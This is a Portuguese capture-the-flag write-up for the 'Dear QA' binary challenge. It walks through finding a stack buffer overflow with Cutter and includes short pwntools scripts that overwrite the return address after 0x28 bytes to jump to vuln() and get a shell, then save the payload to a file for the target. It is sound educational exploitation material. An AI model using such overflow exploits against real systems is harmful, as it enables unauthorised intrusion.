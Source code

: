 # _**Dear QA CTF**_
![](qa.jpg)

## _**Entendo o arquivo**_
Foi alterado o nome do arquivo para _bin_rev_  
Primeiro, vamos executar _file [nome_arquivo]_  

![](file_bin.jpg)

Temos a arquitetura do binário  
Agora, para analisarmos, vamos utilizar a ferramenta <mark>cutter</mark>  

![](main_func.jpg)

Temos a nossa principal função  
Antes de aprofundar, é preciso testar o binário em algumas coisas  
Temos buffer overflow, temos _seg falut_, possível indicação de onde devemos partir para explorar  

![](seg_fault.jpg)

Para explorarmos, é preciso entender como a _stack_ da memória funciona  
Na parte mais acima, é onde temos os primeiros endereços  
Na parte debaixo, é onde temos os últimos endereços  
A escrita na memória começa nos últimos endereços e vai até os primeiros através de uma função: **push**  
Qualquer elemento escrito após, será escrito acima deste elemento primeiro escrito  
Podemos ver que existe um endereço seguro de retorno no final da função  
E também podemos ver que, na função **main()** que: ao ser chamada (scanf), os dados estão sendo escritos em: @ stack - 0x28  
Sabendo disso, vamos realizar um _overwrite_ dos bytes acima e da função de retorno, para termos retorno na função que queremos: **vuln()**  
> ```bash
> from pwn import *
> 
> context.binary = binary = "./bin_rev"
> static = ELF(binary)
> 
> vuln_address = static.symbols.vuln
> payload = b"A"*0x28 + vuln_address.to_bytes(8, 'little')
> 
> p = process()
> p.recvuntil(b"name:")
> p.sendline(payload)
> p.interactive()
> 
![](first_exploit.jpg)

Conseguimos realizar um **BF** e também obter uma shell  
Vamos agora realizar essa operação na máquina da vítima  
Realizamos as seguintes alterações no código  
> ```bash
> from pwn import *
> 
> context.binary = binary = "./bin_rev"
> static = ELF(binary)
> 
> vuln_address = static.symbols.vuln
> payload = b"A"*0x28 + vuln_address.to_bytes(8, 'little')
> 
> with open("my_payload", "wb") as file:
>         file.write(payload)
>

Com isso, poderemos gerar nosso _payload_ e utilizar ele para obter acesso a máquina-alvo  

![](flag.jpg)
